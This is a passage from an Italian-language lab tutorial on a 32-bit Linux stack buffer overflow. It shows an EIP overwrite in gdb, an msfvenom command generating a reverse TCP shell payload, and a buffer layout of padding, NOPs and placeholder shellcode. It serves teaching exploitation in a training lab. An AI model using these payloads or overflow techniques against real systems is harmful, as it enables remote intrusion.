 Ora vediamo che abbiamo sovrascritto l'EIP con i nostri caratteri "\x66".

```shell
# risultato attesto
(gdb) info registers eip
eip            0x66666666       0x66666666
```

## Determinare la lunghezza del shellcode

Ora dobbiamo scoprire quanto spazio abbiamo a disposizione per il nostro shellcode per eseguire l'azione che vogliamo. È di moda e utile sfruttare questa vulnerabilità per ottenere una reverse shell. Per prima cosa, dobbiamo scoprire quanto sarà grande lo shellcode che inseriremo e per questo useremo `msfvenom`.

```shell
$ msfvenom -p linux/x86/shell_reverse_tcp LHOST=<MYIP> lport=31337 --platform linux --arch x86 --format c > shellcode
No encoder specified, outputting raw payload
Payload size: 68 bytes
Final size of c file: 311 bytes
```

Ora sappiamo che il nostro payload sarà di circa `68 byte`. Per precauzione, dovremmo cercare di prendere un intervallo più grande se lo shellcode aumenta a causa di specifiche successive.

Spesso può essere utile inserire qualche `no operation instruction` (`NOPS`) prima dell'inizio del nostro shellcode, in modo che possa essere eseguito in modo pulito. Riassumiamo brevemente ciò di cui abbiamo bisogno:

- Abbiamo bisogno di un totale di `1040 byte` per arrivare all'`EIP`. (exact_match + 4)
- In questo caso, possiamo utilizzare altri `100 byte` di `NOP`. (un po di padding che non guasta mai)
- `150 byte` per il nostro shellcode. (esageriamo un po la dimensione reale di 68 byte)

```shell
    Buffer = "\x55" * (1040 - 100 - 150 - 4) = 786

      NOPs = "\x90" * 100
 Shellcode = "\x44" * 150
       EIP = "\x66" * 4
```

Ora possiamo cercare di capire quanto spazio abbiamo a disposizione per inserire il nostro shellcode.

```shell
(gdb) run $(python -c 'print "\x55" * (1040 - 100 - 150 - 4) + "\x90" * 100 + "\x44" * 150 + "\x66" * 4')

The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/student/bow/bow32 $(python -c 'print "\x55" * (1040 - 100 - 150 - 4) + "\x90" * 100 + "\x44" * 150 + "\x66" * 4')
Program received signal SIGSEGV, Segmentation fault.
0x66666666 in ?? ()

# risultato atteso
(gdb) info registers eip
eip            0x66666666       0x66666666
```
